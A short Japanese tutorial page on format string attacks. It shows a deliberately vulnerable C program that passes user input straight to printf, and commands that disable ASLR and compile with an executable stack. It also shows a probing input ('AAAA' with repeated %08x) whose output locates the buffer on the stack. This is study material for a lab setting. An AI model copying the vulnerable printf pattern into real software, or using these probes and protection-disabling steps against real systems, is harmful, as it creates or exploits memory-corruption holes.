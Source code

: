 <!-- TITLE: Format String Attack -->
<!-- SUBTITLE: A quick summary of Format String Attack -->

# FSBのコード

ももいろテクノロジー様の記事を参考に進めていく[^1]


```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    char buf[100];
    printf("[+] buf = %p\n", buf);
    strncpy(buf, argv[1], 100);
    printf(buf);
    putchar('\n');
    return 0;
}
```

# コンパイル

```sh
$ sudo sysctl -a | grep kernel.randomize_va_space
kernel.randomize_va_space = 2
$ sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
$ gcc -m32 -z execstack fsb.c -o fsb
$ ./fsb $(python -c 'print "AAAA" + ".%08x"*16')
[+] buf = 0xffffd1e8
AAAA.ffffd517.00000064.00f0b5ff.ffffd20e.00000001.000000c2.ffffd304.ffffd20e.ffffd310.41414141.3830252e.30252e78.252e7838.2e783830.78383025.3830252e
```

最初の**AAAA**を*0*とすると、*10*番目に**41414141**、すなわちASCIIコードの**AAAA**が表示されている

# 
